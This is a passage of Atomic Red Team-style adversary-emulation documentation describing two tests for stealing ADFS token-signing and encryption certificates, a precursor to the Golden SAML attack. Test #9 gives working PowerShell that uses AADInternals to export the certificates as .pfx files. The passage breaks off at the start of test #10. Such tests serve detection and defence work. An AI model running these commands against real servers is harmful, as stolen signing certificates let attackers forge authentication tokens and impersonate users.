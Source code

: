 ## Atomic Test #9 - ADFS token signing and encryption certificates theft - Local
Retrieve ADFS token signing and encrypting certificates. This is a precursor to the Golden SAML attack (T1606.002). You must be signed in as Administrator on an ADFS server.
Based on https://o365blog.com/post/adfs/ and https://github.com/fireeye/ADFSDump.

**Supported Platforms:** Windows


**auto_generated_guid:** 78e95057-d429-4e66-8f82-0f060c1ac96f






#### Attack Commands: Run with `powershell`! 


```powershell
Import-Module AADInternals -Force
Export-AADIntADFSCertificates
Get-ChildItem | Where-Object {$_ -like "ADFS*"}
Write-Host "`nCertificates retrieved successfully"
```

#### Cleanup Commands:
```powershell
Remove-Item -Path ".\ADFS_encryption.pfx" -ErrorAction Ignore
Remove-Item -Path ".\ADFS_signing.pfx" -ErrorAction Ignore
```



#### Dependencies:  Run with `powershell`!
##### Description: AADInternals module must be installed.
##### Check Prereq Commands:
```powershell
if (Get-Module AADInternals) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
Install-Module -Name AADInternals -Force
```




<br/>
<br/>

## Atomic Test #10 - ADFS token signing and encryption certificates theft - Remote
Retrieve ADFS token signing and encrypting certificates. This is a precursor to the Golden SAML attack (T1606.002). You must be signed in as a Domain Administrators user on a domain-joined computer.
Based on https://o365blog.com/post/adfs/ and https://github.com/fireeye/ADFSDump.

**Supported Platforms:** Windows
